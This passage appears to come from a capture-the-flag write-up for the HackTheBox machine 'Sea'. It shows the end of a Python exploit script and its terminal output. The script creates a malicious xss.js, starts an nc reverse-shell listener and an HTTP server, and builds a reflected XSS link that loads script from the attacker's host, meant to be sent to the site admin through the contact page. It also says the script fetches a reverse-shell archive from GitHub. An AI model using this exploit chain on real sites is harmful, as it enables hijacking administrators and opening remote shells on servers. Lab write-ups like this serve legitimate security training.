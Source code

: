 ```python
        }};
    }}
}};
'''
    try:
        open("xss.js", "w").write(data)
        print("[+] xss.js is created")
        print(f"[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp {sys.argv[3]}")
        print("----------------------------\n")
        XSSlink = str(sys.argv[1]).replace("loginURL", "index.php?page=loginURL?") + f'"></form><script+src="http://{ip_address}:8000/xss.js"></script><form+action="'
        XSSlink = XSSlink.strip(" ")
        print("send the below link to admin:\n\n----------------------------\n" + XSSlink)
        print("----------------------------\n")
        print("\nstarting HTTP server to allow the access to xss.js")
        os.system("python3 -m http.server\n")
    except Exception as e:
        print(data, "\n", "//write this to a file")
        print(f"Error: {e}")

```

First the script download the zip file that contains a reverse shell from `https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip`

Then it generates a malicious javascript file that's going to give us the reverse shell.

And it provides us with a payload to give to the admin of the website.

```terminal
┌─[eu]─[10.10.16.62]─[sirius@parrot]─[~]
└──╼ [★]$ python expoit.py http://sea.htb/loginURL 10.10.16.62 9001
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 9001
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.16.62:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We need a way to send the payload. Luckily for us there is a contact page at `http://sea.htb/contact.php`

